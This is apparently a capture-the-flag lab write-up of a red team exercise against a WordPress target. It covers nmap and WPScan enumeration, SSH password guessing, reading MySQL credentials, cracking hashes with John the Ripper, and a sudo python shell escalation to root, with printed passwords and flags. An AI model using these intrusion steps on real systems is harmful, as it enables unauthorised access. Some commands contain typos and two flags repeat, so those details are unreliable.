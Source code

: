 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.110
```
![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/1-nmap.png)

This scan identifies the services below as potential points of entry:

**Target 1**
```
- Port 22/TCP   Open SSH
- Port 80/TCP   Open HTTP
- Port 111/TCP 	Open rcpbind
- Port 139/TCP 	Open netbios-ssn
- Port 445/TCP 	Open netbios-ssn
```

The following vulnerabilities were identified on each target:
**Target 1**
```
- Weak User Password
- WordPress - user enumeration and unsalted user password hash
- Escalation of privilege
```

---

### Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**
- **Flag1: b9bbcb33e11b80be759c4e844862482d**
- Exploit Used:
    - WPScan to identify users of the Target 1 machine
    - Command: `$ wpscan --url http://192.168.1.110/wordpress`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/wp1.png)

    - Command: `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/wpu.png)

- Accessing user Michael
    - due to a weak password we were able to guess Michael's password
    - `ssh michael@192.168.1.110`
    - Password: `michael`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/SSH.png)

- Accessing var/www/html as root and using `grep` to capture flag1.
    - Commands:
        - `cd ../`
        - `cd var/www`
        - `cd html/`
        - `ls`
        - `grep -IR flag1 *`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/flag1.png)

- **Flag2: fc3fd58dcdad9ab23faca6e9a36e5**
- Exploit Used:
    - Same exploit used to capture flag1.
        - Commands:
            - `cd ../`
            - `ls`
            - `cat flag2.txt`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/flag2.png)

- **Flag3: fc3fd58dcdad9ab23faca6e9a36e5**
- Exploit Used:
    - Same exploit used to capture flag1 and flag2.
    - Once `wp-config.php` was found, we gained access to the database (as Michael) MySQL was used to locate flag3.
        - Commands:
            - `mysql -u root -pR@v3nSecurity`
            - `connect wordpress`
            - `show tables`
            - `seletct * from wp_posts;`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/sp_post.png)

- **Flag4: 715dea6c055b9fe3337544932f2941ce**
- Exploit Used:
    - Recieve 'hash' password for both Michael and Steven byb using the same MySQL exploit from flag3.
        - Commands:
            - `mysql -u root -pR@v3nSecurity`
            - `connect wordpress`
            - `show tables`
            - `seletct * from wp_users;`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/tables.png)

   - Created a .txt file of 'hash' passwords
    - `nano wp_hash.txt`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/wphash.png)    

- Used John the Ripper to unhash Steven's password
    - `john wp_hash.txt`
    - `john --show wp_hash.txt`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/password.png)

- Accessing user Steven
    - `ssh steven@192.168.1.110`
    - Password: `pink84`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/sshsteven.png)

- Use Python to gain root privileges
    - `ls`
    - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
    - `cd ~`
    - `ls`
    - `cat flag4.txt`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/Python.png)
